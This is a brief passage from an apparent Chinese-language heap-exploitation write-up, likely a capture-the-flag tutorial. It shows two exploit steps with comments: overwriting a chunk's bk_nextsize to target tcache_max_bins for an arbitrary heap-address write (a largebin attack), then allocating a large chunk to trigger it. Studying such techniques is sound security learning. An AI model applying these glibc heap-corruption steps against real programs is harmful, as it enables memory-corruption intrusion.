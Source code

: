 [![](assets/1700442753-0780006312dd6645560eb0b5072ab1f8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185456-be9a2f3e-8537-1.png)

```plain
edit(0,p64(0)*3+p64(tcache_max_bins-0x20))
#修改chunk 0的bk_nextsize为_mp+80 - 0x20处，来达到任意地址写一个堆块地址
```

[![](assets/1700442753-4ffccf32f2bb28f592e38f6af2177831.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117185500-c0df5e72-8537-1.png)

```plain
add(4,0x600,"\n")
#申请一个大堆块触发漏洞
```
